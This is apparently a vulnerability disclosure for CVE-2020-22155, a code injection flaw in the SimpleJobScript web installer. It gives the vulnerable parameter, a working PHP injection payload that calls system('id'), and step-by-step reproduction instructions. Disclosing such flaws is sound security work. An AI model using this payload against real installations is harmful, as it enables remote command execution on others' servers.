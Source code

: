 ```yaml
---
cve: "CVE-2020-22155"
title: "Code injection in SimpleJobScript by Niteosoft"
date: 2020-02-13
tags:
- cve
- code injection
- rce
---
```

The installer of SimpleJobScript is vulnerable to Remote Command Execution if not completed yet through the parameter `url`.
<!--more-->

- mitre: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-22155
- public announcement: https://github.com/niteosoft/simplejobscript/issues/8

<hr />

**Description:**  
The installer of SimpleJobScript is vulnerable to Remote Command Execution if not completed yet through the parameter `url`

**Details:**  
URL: `/installer.php`  
Parameter: `url`  

**Payload:**  
`url=example.com'.system('id').'&host=127.0.0.1&port=3306&username=test&password=test&db_name=sjs&submit=Save`

**Steps to Reproduce:**  
1/ Download and extract the SimpleJobScript archive in the server web directory:  
https://simplejobscript.com/downloads/category/products/  
2/ Run the installer  
3/ If the installation process has never been completed before you'll be prompt a form to submit database informations  
4/ In the `App Url` input, enter the payload below and submit: `example.com'.system('id').'`  
5/ Visit with your browser: `/_config/config.envs.php`  

**PoC:**
![cve-2020-22155 SimpleJobScript rce](/images/cve-2020-22155.png)

